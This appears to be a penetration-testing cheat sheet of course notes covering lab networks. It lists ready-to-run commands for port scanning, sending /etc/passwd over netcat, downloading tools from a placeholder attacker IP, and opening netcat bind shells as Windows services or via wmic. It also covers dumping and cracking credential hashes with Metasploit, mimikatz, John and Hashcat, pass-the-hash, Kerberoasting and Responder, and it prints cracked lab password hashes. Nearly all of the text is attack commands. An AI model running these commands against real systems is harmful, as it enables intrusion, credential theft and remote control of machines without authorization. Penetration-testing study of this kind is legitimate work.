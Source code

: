 # Chapter 1  Scope and Recon

strings -n 8 for different encoding types -e l for little endian b for big endian

```
strings -n 8 -e b WidgetStatisticalWhitepaper.doc | grep '\\'
```
```
exfiltool
```



# Chapter 2 Scanning


#### Other Scanning tools   
```
masscan -0-65535 --rate 1500 10.10.10.0/24
```
```
tcpdump -nnX tcp and dst 10.10.10.10
tcpdump -nn udp and src 10.10.10.10
tcpdump -nn tcp and port 80 and host 10.10.10.10
```
```
echo "" | nc -nvw2 10.10.10.60 20-80
```
#### IPv6 scans

multicast scan   
```
ping6 -I eth0 ff02::1
```   
#### Netcat

Transfer files
```
nc -nvlp 8080 < /etc/passwd

nc -nv YOUR_LINUX_IP_ADDRESS 8080 > passwd.txt
```

## Powershell commands

#### Ping scan

```
1..60 | % { echo $_; ping -n 1 -w 100 10.10.10.$_ | select-string ttl }
```
#### Port scan

```
70..90 | % {echo $_; echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.50", $_)) "Port $_ is open" } 2>$null
```
#### Transfer files

```
(New-Object System.Net.WebClient).DownloadFile("http://YOUR_LINUX_IP_ADDRESS/SEC560/netcat.zip","netcat.zip")
```



# Chapter 3 Exploitation

## Port forwarding

#### Meterpreter   
```
meterpreter > portfwd add -l 1111 -p 22 -r Target2
```
This opens 1111 on attackers machine then send anything to port 22 on target machine through meterpreter

#### Netcat backpipe
```
mknod backpipe p

nc -lp 9000 0<backpipe | nc 127.0.0.1 22 1>backpipe
```

ssh to connet 
```
ssh login_name@targetmachine -p 9000
```

#### service usage
```
sc create ncservice2 binpath= "cmd.exe /k c:\tools\nc.exe -l -p 2222 -e cmd.exe"

sc start ncservice2
```

#### Wimic
```
wmic process call create "c:\tools\nc.exe -l -p 4444 -e cmd.exe"
```
# Chapter 4

#### Hydra 

```
cat /opt/password.lst | pw-inspector -m 6 -n -u -l -c 2 > /tmp/custom.lst
```
```
xhydra
```

#### MSF

```
run post/windows/gather/smart_hashdump
```
```
load kiwi
creds_all
```
```
run post/multi/manage/autoroute SUBNET=10.10.10.0 CMD=add
```
CMD=autoadd should be fine in most cases   
you will now to able to target anthing on 10.10.10.0 subnet in msf

```
set Proxies socks4:127.0.0.1:9999
Proxies => socks4:127.0.0.1:9999
msf5 exploit(windows/smb/psexec) > set ReverseAllowProxy true
```
MSF usage of ssh -D proxy

#### John

```
john --show sam.txt
Administrator:CRACKME:500:A5C67174B2A219D1AAD3B435B51404EE:363DD639AD34B6C5153C0F51165AB830:::
charlie:EILRAHC:1007:380B4695FE1449EBAAD3B435B51404EE:03F9CC43288014DEE4FA4B190D9CA948:::
dizzy:INTERNET12:1008:3EACDEE7E4395079BE516DA459FE4E65:1274D7B32A9ABDDA01A5067FE9FBB32B:::
Guest:NO PASSWORD:501:NO PASSWORD*********************:NO PASSWORD*********************:::
monk:VIRGINIA:1009:AF83DBF0052EE4717584248B8D2C9F9E:A65C3DA63FDB6CA22C172B13169D62A5:::
ted:NEWPASS:1006:09EEAB5AA415D6E4AAD3B435B51404EE:18DA6C2895C549E266745951D5DC66CB:::

8 password hashes cracked, 6 left
```
```
john --format=nt sam.txt
```
```
unshadow passwd_copy shadow_copy > combined.txt
john combined.txt --format=crypt
```
#### Hashcat
```
hashcat -w 3 -a 0 -m 3000 -o cracked.txt coursefiles/sam.txt /opt/password.lst
```
```
hashcat -w 3 -a 0 -m 3000 -o cracked.txt coursefiles/sam.txt names.txt /opt/password.lst -r /usr/local/share/doc/hashcat/rules/best64.rule
```
```
hashcat -w 3 -a 0 -m 1800 -o cracked.txt shadow_copy names.txt clear.txt /opt/password.lst -r /usr/local/share/doc/hashcat/rules/best64.rule
```

#### LM to NTLM   
```
/opt/metasploit-framework/tools/password/lm2ntcrack.rb -t NTLM -p INTERNET12 -a 1274D7B32A9ABDDA01A5067FE9FBB32B
```
#### Pulling Creds from .pcap
```
./Pcredz -v -f /tmp/winauth.pcap
```
file is saved to `CredentialDump-Session.log`

```
grep clark CredentialDump-Session.log | cut -d ' ' -f 5 | tee hash.txt
```
```
john hash.txt
```
or
```
hashcat -m 5600 --potfile-path ~/.hashcat/hashcat.potfile --show --outfile-format 2 hash.txt
```
#### Pass-the-Hash   
MSF can do this
```
use exploit/windows/smb/psexec
set SMBPass LANMAN:NT
 ```

#### VoIP

In wireshark dropdown menues  telephone > RTP > RTP Streams   
then select stream and click Analyze   
Play Streams   


# Chapter 5

#### Kerberoasting

```
cscript.exe GetUserSPNs.vbs
```
```
powershell.exe -command "Add-Type -AssemblyName System.IdentityModel; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'svcsqlserver/dc01.sec560.local:1433'"
```

```
mimikatz.exe
mimikatz # kerberos::list /export
mimikatz # exit
```

Look for `rc4_hmac_nt`

Crack ticket with tgsrepcrack.py from TIM Medin `https://github.com/nidem/kerberoast`

```
python tgsrepcrack.py example.dict C:\Users\sec560\Desktop\1-40a10000-john.doe@svcsqlserver~dc01.sec560.local~1433-SEC560.LOCAL.kirbi
```

#### Responder

```
Responder.py -I eth0
```

saved hashes will be put in `/opt/responder/logs` or whereever responder is stored

`SMBv2-NTLMv2-SSP-YOUR_WINDOWS_IP_ADDRESS.txt`

```
john --format=netntlmv2 /opt/responder/logs/SMBv2-NTLMv2-SSP-YOUR_WINDOWS_IP_ADDRESS.txt
```

passwords saved in `~/.john/john.pot`
